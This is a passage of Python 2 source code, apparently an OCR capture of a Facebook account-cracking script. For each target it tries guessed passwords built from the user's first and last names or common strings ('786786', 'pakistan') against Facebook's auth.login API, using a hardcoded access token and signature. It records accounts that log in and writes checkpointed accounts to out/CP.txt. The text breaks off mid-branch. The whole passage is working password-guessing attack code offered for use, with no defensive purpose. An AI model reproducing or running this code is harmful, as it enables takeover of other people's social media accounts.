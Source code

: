 									pass4 = b['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\033[0;92m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass4 + '\033[0;39m | \033[0;39m' + b['name']
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass4 + '\033[0;39m | \033[0;39m' + b['name']
											cek = open("out/CP.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\033[0;92m[OK] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass5 + '\033[0;39m | \033[0;39m' + b['name']
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass5 + '\033[0;39m | \033[0;39m' + b['name']
													cek = open("out/CP.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\033[0;92m[OK] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass6 + '\033[0;39m | \033[0;39m' + b['name']
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass6 + '\033[0;39m | \033[0;39m' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'pakistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\033[0;92m[OK] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass7 + '\033[0;39m | \033[0;39m' + b['name']
																oks.append(user+pass7)
															else: